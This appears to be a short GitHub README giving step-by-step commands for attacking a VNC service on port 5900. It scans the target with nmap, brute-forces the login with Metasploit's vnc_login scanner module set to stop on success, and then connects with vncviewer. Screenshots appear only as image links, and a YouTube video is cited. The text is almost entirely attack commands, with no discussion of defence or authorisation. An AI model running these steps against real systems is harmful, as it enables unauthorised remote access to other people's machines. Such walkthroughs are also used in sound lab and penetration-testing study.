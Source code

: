 # Port-5900-VNC-protocol-3.3-
1.nmap - sV (target ip)

![image](https://github.com/thanawut2903/Port-5900-VNC-protocol-3.3-/assets/159118913/bb6eefc3-6580-4779-99ed-19ff4dcc0171)


2.msfconsole

3.msf 6 > search vnc 3.3

4.msf 6 > use auxiliary/scanner/vnc/vnc_login

5.msf 6 > show options

![image](https://github.com/thanawut2903/Port-5900-VNC-protocol-3.3-/assets/159118913/537ce011-4904-46eb-8855-95636081c6a1)

6.msf 6 > set RHOST (trarget ip)

7.msf 6 > set stop_on_success true

8.msf 6 > exploit

![image](https://github.com/thanawut2903/Port-5900-VNC-protocol-3.3-/assets/159118913/e494720c-322e-4726-a146-97d1868a36e0)

9.vncviewer (target ip)

![image](https://github.com/thanawut2903/Port-5900-VNC-protocol-3.3-/assets/159118913/492a11d5-86e9-4b65-b2d9-864320804b38)

![image](https://github.com/thanawut2903/Port-5900-VNC-protocol-3.3-/assets/159118913/e1997fdd-e675-42de-8ae2-0249daa3e26f)



Reference form : https://www.youtube.com/watch?v=LCIKDuaYeIY
